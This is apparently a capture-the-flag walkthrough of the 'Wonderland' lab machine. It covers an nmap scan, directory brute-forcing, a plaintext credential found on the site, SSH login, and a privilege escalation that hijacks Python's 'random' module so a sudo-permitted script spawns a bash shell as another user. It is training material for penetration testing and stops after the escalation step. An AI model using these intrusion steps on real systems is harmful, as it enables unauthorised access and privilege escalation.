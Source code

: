 # Wonderland - Fall down the rabbit hole and enter wonderland - Medium

## Objectives - Find the flag in user.txt and root.txt

### I started by running a basic nmap scan on the target IP address

<p><span style="color:red"><em>nmap -A 10.10.97.29</em></span></p>

### With this scan we found that port 22 (ssh) and 80 (HTTP) are open. My next step was to curl the webpage to see if that would revel any vulnerabilities, it did not. Never fear, the next thing I did was run dirbuster on the webpage. Eventully I run down the web directories to: 

<p><span style="color:red"><em>http://10.10.97.29/r/a/b/b/i/t/</em></p>

### Next I inspected the webpage for more information and found what looks to be credentials for alice.

<p><span style="color:red"><em>alice:HowDothTheLittleCrocodileImproveHisShiningTail</em></span></p>

### Next Im going to try those credentials to access the SSH server. 

<p><span style="color:red"><em>ssh alice@10.10.97.29</em></span></p>

### Im in!! The first thing we see once we log into alices computer is root.txt and a .py file. The Python file is below:


```
import random
poem = """The sun was shining on the sea,
Shining with all his might:
He did his very best to make
The billows smooth and bright —
And this was odd, because it was
The middle of the night.

[... REDACTED ...]

"O Oysters," said the Carpenter.
"You’ve had a pleasant run!
Shall we be trotting home again?"
But answer came there none —
And that was scarcely odd, because
They’d eaten every one."""

for i in range(10):
    line = random.choice(poem.split("\n"))
    print("The line was:\t", line)
```
By doing:
<p><span style="color:red"><em>sudo -l</em></span></p>
We can see alice may run the folloiwng commands:


```
(rabbit) /usr/bin/python3.6 /hom/alice/walrus_and_thecarpenter.py
```

Next I created a .py file named random so that it would be imported and run the next time walrus_and_the_carpenter.py was run. In this python file I put:

```
import pty;pty.spawn("/bin/bash")
```

Finally the last thing I need to do is run the python file. 

<p><span style="color:red"><em>sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py</em></span></p>

